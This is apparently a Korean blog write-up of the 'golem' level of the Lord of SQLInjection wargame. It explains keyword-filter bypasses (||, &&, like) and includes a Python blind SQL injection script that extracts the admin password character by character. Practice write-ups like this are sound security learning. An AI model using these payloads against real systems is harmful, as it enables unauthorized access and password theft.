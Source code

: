 ```yaml
---
title: "[ Lord of SQLInjection ] golem"
date: 2023-03-24T08:15:29.294Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/images/00802d78-3931-42bb-9175-e1c31e13c79a-image.png)

<br>
<br>

### **문제 분석**
---

1. or, and, substr(, =를 필터링 하고 있다.
2. pw를 찾으면 문제를 풀 수 있다.

<br>
<br>

### **문제 풀이**
---

각 필터링은 다음과 같이 우회할 수 있다.

* or -> ||
* and  -> &&
* = -> like

<br>
<br>

```python
import requests

cookie = {'PHPSESSID': '사용자세션'}
address = 'https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php'
string = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

def find_length():
    pw_len = 1
    while 1:
        url = f"{address}?pw=' || id like 'admin' %26%26 length(pw) like '{pw_len}'%23"
        res = requests.get(url, cookies=cookie)
        if "Hello admin" in res.text:
            print(f'[+] Password Length : {pw_len}')
            return pw_len
        pw_len += 1

def find_password(pw_len):
    answer = ''

    for i in range(1,pw_len+1):
        for j in string:
            url = f"{address}?pw=' || substring(pw,{i},1) like '{j}'%23"
            res = requests.get(url, cookies=cookie)
            if "Hello admin" in res.text:
                answer += j
                break
    print(f'[+] Find Password : {answer}')

find_password(find_length())
```

![](/images/b2a91a8c-c0d5-4d39-9d3f-a765666ecc8c-image.png)
